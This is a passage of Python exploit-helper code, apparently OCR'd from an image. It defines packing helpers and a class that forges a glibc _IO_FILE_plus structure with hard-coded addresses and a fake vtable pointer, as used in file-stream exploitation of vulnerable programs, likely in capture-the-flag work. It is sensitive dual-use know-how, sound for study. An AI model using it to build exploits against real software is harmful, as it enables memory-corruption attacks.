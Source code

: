 ```python
        return _p32(data)
    elif _BITS == 64:
        return _p64(data)
    else:
        print("[-] Invalid _BITS")
        exit()

def _pa(data):
    if _BITS == 32:
        return struct.pack("<I", data)
    elif _BITS == 64:
        return struct.pack("<Q", data)
    else:
        print("[-] Invalid _BITS")
        exit()

class _IO_FILE_plus:
    def __init__(self):
        self._flags = 0x00000000fbad2887         # High-order word is _IO_MAGIC; rest is flags.
        self._IO_read_ptr = 0x602500   # Current read pointer
        self._IO_read_end = 0x602500   # End of get area
        self._IO_read_base = 0x602500  # Start of putback+get area
        self._IO_write_base = 0x602600 # Start of put area
        self._IO_write_ptr = 0x602600  # Current put pointer
        self._IO_write_end = 0x602600  # End of put area
        self._IO_buf_base = 0x602600   # Start of reserve area
        self._IO_buf_end = 0x602601    # End of reserve area

        # The following fields are used to support backing up and undo.
        self._IO_save_base = 0      # Pointer to start of non-current get area
        self._IO_backup_base = 0    # Pointer to first valid character of backup area
        self._IO_save_end = 0       # Pointer to end of non-current get area

        self._markers = 0
        self._chain = 0

        self._fileno = 0
        self._flags2 = 0
        self._old_offset = 0    # This used to be _offset but it's too small

        # 1+column number of pbase(); 0 is unknown
        self._cur_column = 0
        self._vtable_offset = 0
        self._shortbuf = 0

        self._lock = 0x602700

        if not _IO_USE_OLD_IO_FILE:
            self._offset = 0
            self._codecvt = 0
            self._wide_data = 0
            self._freeres_list = 0
            self._freeres_buf = 0
            self.__pad5 = 0
            self._mode = 0
            self._unused2 = [0 for i in range(15 * 4 - 5 * _BITS / 8)]
        self.vtable = 0x602168

    def tostr(self):
        buf = _p64(self._flags & 0xffffffff) + \
            _pa(self._IO_read_ptr) + \
            _pa(self._IO_read_end) + \
            _pa(self._IO_read_base) + \
```